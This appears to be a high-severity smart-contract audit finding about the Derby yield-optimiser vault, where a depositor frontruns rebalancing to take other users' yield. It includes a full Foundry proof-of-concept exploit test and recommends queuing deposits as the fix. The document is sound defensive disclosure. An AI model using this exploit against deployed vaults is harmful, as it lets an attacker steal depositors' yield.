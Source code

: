 Bobface

high

# Vault rebalancing can be frontrun to steal yield

## Summary
Users can frontrun the vault's rebalancing process to steal yield generated by other users.

## Vulnerability Detail
[`MainVault`](https://github.com/sherlock-audit/2023-01-derby/blob/main/derby-yield-optimiser/contracts/MainVault.sol)'s reblancing is a multi-step process starting with a call to [`pushTotalUnderlyingToController`](https://github.com/sherlock-audit/2023-01-derby/blob/main/derby-yield-optimiser/contracts/MainVault.sol#L249) when a [certain amount of time](https://github.com/sherlock-audit/2023-01-derby/blob/main/derby-yield-optimiser/contracts/Vault.sol#L428) has passed since the last rebalancing. During the rebalancing process, the [`exchangeRate` is updated](https://github.com/sherlock-audit/2023-01-derby/blob/main/derby-yield-optimiser/contracts/MainVault.sol#L296) to include the yields generated since the last rebalancing. 

A malicious user can frontrun the call to `pushTotalUnderlyingToController` and mint a large amount of shares through [`deposit()`](https://github.com/sherlock-audit/2023-01-derby/blob/main/derby-yield-optimiser/contracts/MainVault.sol#L106) for the **old exchange rate**, wait for the rebalancing process which starts immediately afterwards to complete, and then immediately withdraw the funds at the **new, increased exchange rate** to steal the yield generated by the other users.

## Impact
Yield which has been generated by normal users over the period between two rebalancings can be stolen without risk by an attacker.

## Tool used

Manual Review

## Recommendation
The most common solution to this issue is to queue deposits. When a user makes a deposit, he does not immediately get shares minted, but instead his deposit is queued and only executed **after** the next rebalancing is complete. This way, deposited funds only get activated in the next period, avoiding the issue of depositing exactly before the period ends while still getting credited yield pro-rata.


## Code Snippet
The PoC is implemented as Forge test. To run it, 
1. [Install Foundry](https://github.com/foundry-rs/foundry#installation) if you have not already done so
2. In the `derby-yield-optimiser` directory, paste the following content into `foundry.toml`:
```toml
[profile.default]
src = 'contracts'
out = 'out'
libs = ['lib']

# See more config options https://github.com/foundry-rs/foundry/tree/master/config
```
3. Run `forge init --force --no-commit`. You can ignore the git error it displays.
4. Run `forge install openzeppelin/openzeppelin-contracts --no-commit`. Again, ignore the git error.
5. Paste the following content into `remappings.txt`:
```txt
hardhat/=lib/forge-std/src
@openzeppelin/=lib/openzeppelin-contracts/
```
6. Paste the Solidity code below into `test/Frontrun.t.sol`.
7. Finally, to run the PoC, execute `forge test -m testFrontrun -vv`. You should see this output:
```txt
Running 1 test for test/Frontrun.t.sol:FrontrunTest
[PASS] testFrontrun() (gas: 9964618)
Logs:
  Made a profit of 4 tokens
```

Code:

```solidity
pragma solidity ^0.8.11;

import "../contracts/MainVault.sol";
import "../contracts/Interfaces/IController.sol";

import "forge-std/Test.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract FrontrunTest is Test {
    ERC20 token;
    MainVault vault;

    User badUser;
    User someNormalUsers;

    // The amount normal users have deposited in total
    // before the bad user deposits
    uint256 NORMAL_USERS_DEPOSIT = 10 ether;
    // The amount the bad user deposits
    uint256 BAD_USER_DEPOSIT = 100 ether;
    // The amount of yield the normal users generated
    // *before* the bad user deposits.
    uint256 YIELD = 5 ether;

    function main() internal {
        // ENTRY POINT
        // Runs the main PoC after the environment has been set up.
        
        // Normal users deposit
        someNormalUsers.deposit(NORMAL_USERS_DEPOSIT);

        // They generate yield over time
        vm.roll(10_000);
        vm.warp(10_000 * 12);
        deal(address(token), address(vault), YIELD);

        // The vault can be rebalanced.
        // The bad user frontruns the start of the rebalancing process
        // by depositing funds into the vault.
        badUser.deposit(BAD_USER_DEPOSIT);

        // The rebalancing process is immediately started after the bad user's deposit.
        // During this process nobody can enter or exit the pool.
        uint256 exchangeRate = 
            ((NORMAL_USERS_DEPOSIT + BAD_USER_DEPOSIT + YIELD) * 1e18) /
            (NORMAL_USERS_DEPOSIT + BAD_USER_DEPOSIT);
        vault.pushTotalUnderlyingToController();
        vault.setXChainAllocation(0, exchangeRate, false);
        vault.receiveProtocolAllocations(new int256[](0));
        vault.rebalance();
        vault.sendRewardsToGame();

        // Immediately after the rebalancing process is complete,
        // the bad users withdraws all funds, making a profit.
        badUser.withdrawAll();
        badUser.print();
    }

    function testFrontrun() external {
        // Create the token
        token = new ERC20("TOKEN", "TOKEN");

        // Create the vault
        vault = new MainVault(
            "VAULT",
            "VAULT",
            18,
            1,
            address(this),
            address(0),
            address(this),
            address(token),
            1e18
        );

        // Set this contract as XProvider
        vault.setHomeXProvider(address(this));

        // Create the users
        badUser = new User(token, vault);
        someNormalUsers = new User(token, vault);

        // Execute main
        main();
    }

    // ----------------------------------------------
    // --- XProvider Mock
    function pushTotalUnderlying(
    uint256 _vaultNumber,
    uint32 _chainId,
    uint256 _underlying,
    uint256 _totalSupply,
    uint256 _withdrawalRequests
    ) external payable {}

    function pushRewardsToGame(
    uint256 _vaultNumber,
    uint32 _chainId,
    int256[] memory _rewards
  ) external payable {}

    // ----------------------------------------------
    // --- Controller Mock
    function latestProtocolId(uint256 _ETFnumber) external view returns (uint256) {
        return 0;
    }
}

contract User is Test {
    ERC20 token;
    MainVault vault;

    uint256 deposited;

    constructor(ERC20 _token, MainVault _vault) {
        token = _token;
        vault = _vault;

        token.approve(address(vault), type(uint256).max);
    }

    function deposit(uint256 amount) external {
        deal(address(token), address(this), amount);
        deposited += vault.deposit(amount, address(this));
    }

    function withdrawAll() external {
        vault.withdraw(vault.balanceOf(address(this)), address(this), address(this));
    }

    function print() external {
        uint256 balance = token.balanceOf(address(this));
        console.log("Made a profit of %s tokens", (balance - deposited) / 1e18);
    }
}
```
